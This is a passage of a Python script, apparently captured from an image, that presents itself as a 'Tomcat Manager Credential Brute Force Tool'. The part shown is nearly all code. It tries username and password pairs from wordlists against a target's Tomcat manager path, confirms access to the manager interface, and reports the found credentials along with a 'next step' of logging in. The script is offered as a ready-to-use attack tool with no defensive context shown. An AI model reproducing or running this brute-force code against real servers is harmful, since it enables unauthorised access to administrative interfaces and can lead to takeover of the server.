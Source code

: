```python
                        
                        # Test manager interface access
                        if "manager" in response.text.lower():
                            cprint("[+] Manager interface access confirmed!", "green", attrs=['bold'])
                        
                        return username, password
                        
                except requests.exceptions.RequestException as e:
                    cprint(f"\n[-] Request failed for {username}:{password} - {e}", "red")
                    continue
        
        print("\n")
        cprint("[-] Brute force completed - No valid credentials found", "red", attrs=['bold'])
        return None, None
        
    except FileNotFoundError as e:
        cprint(f"[-] File not found: {e}", "red", attrs=['bold'])
        sys.exit(1)
    except Exception as e:
        cprint(f"[-] Unexpected error: {e}", "red", attrs=['bold'])
        sys.exit(1)

def main():
    banner()
    
    parser = argparse.ArgumentParser(description="Tomcat Manager Credential Brute Force Tool")
    parser.add_argument("-U", "--url", type=str, required=True, 
                       help="Target Tomcat base URL (e.g., http://target.com:8080/)")
    parser.add_argument("-P", "--path", type=str, required=True, 
                       help="Manager URI path (e.g., /manager/html)")
    parser.add_argument("-u", "--usernames", type=str, required=True, 
                       help="Username wordlist file")
    parser.add_argument("-p", "--passwords", type=str, required=True, 
                       help="Password wordlist file")
    
    args = parser.parse_args()
    
    # Execute brute force attack
    username, password = tomcat_brute_force(args.url, args.path, args.usernames, args.passwords)
    
    if username and password:
        cprint(f"\n[+] Attack completed successfully!", "green", attrs=['bold'])
        cprint(f"[+] Next step: Access manager at {args.url}{args.path}", "cyan", attrs=['bold'])
    else:
        cprint("\n[-] Attack failed to find valid credentials", "red", attrs=['bold'])

if __name__ == "__main__":
    main()
```
